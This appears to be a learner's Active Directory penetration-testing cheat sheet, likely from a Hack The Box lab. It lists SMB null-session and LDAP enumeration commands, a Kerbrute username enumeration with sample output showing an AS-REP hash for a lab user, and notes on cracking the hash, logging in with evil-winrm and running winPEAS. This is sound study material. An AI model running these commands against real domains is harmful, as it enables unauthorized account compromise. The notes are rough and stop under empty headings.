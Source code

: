 # Active Directory CheatSheet

### What I want to learn from this path.

    - Understand how kerberos and Kerbrute works!



### SMB service
-   using smbmap we can get the shares
    
    ```bash
    smbmap -H <host> -u 'null'
    # to perform the null session 
    ```


-   using smbclient

    ```bash
    smbclient -L //<host>/Shares -N
    # with -N we perform a null session

    smbclient //<host>/Shares -N
    # to connect without listing the shares
    ```
    

### LAPS
Local Administrator Password Solution. Is used to manage local account
passwords of Active Directory computers.




### LDAP (Lightweight directory access protocol)
Is a protocol that makes it possible for applications to query
user information rapidly.


the port fort ldap 389


Someone within your office wants to do two things: Send email to a
recent hire and print a copy of that conversation on a new printer.
LDAP (lightweight directory access protocol) makes both of those steps possible.

Set it up properly, and that employee doesn't need to talk with IT
to complete the tasks.


### What is LDAP?

Companies store usernames, passwords, email addresses, printers
connections, and other static data within directories. LDAP is an
open, vendor-natural application protocol for accessing and main-
taining that data. LDAP can also trackle authentication, so users can sign
on just once and access many different files on the server.

```bash
# user enumeration for ldap protocol 389

/opt/windapsearch.py -d <domain> --dc-ip <ip address>


GetADUsers.py -d <domain>/ -dc-ip <ip address> -debug
```


### Kerberos


With a several names, we get using user-anarchy, possible
usernames

and perform a kerbrute attack

```bash
kerbrute userenum -d <domain> --dc <ip address> user-list.txt
```

with this tool if there are any valid user in the user-list.txt
we get a hash referring to a Ticket Granted Ticket

```bash
❯ /opt/kerbrute  userenum -d <domain name "commonly .local or .htb"> --dc <ip address domain controller> unames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 05/29/23 - Ronnie Flathers @ropnop

2023/05/29 23:33:40 >  Using KDC(s):
2023/05/29 23:33:40 >   10.10.10.175:88

2023/05/29 23:33:40 >  [+] fsmith has no pre auth required. Dumping hash to crack offline:
$krb5asrep$18$<userdomain>@<domain>:<hash to crack it with john or hashcat>
2023/05/29 23:33:40 >  [+] VALID USERNAME:       fsmith@EGOTISTICAL-BANK.LOCAL
2023/05/29 23:33:41 >  Done! Tested 24 usernames (1 valid) in 0.481 seconds
```

The code above it's an example of how can i do to get the TGT from kerbrute and
after that I cracked it and i get the password for the user fsmith and
connect it with evil-winrm


Inside the Powershell console, I started enumerating information

```powershell
net user <user>

# to get the ptivilege information about that user
whoami /priv

# to find any other resurce inside the Powershell I use

Get-ChildItem -Path "C:\Users\<User>" -Filter "name of file" -Recurse
```

## Further information

Using Winpeas.exe and updload it from the attack machine by evil-winrm
and get the information using evil-winrm

### Getting information using the Winpeas.exe

## Bloodhound

...


## Services in Active Directory
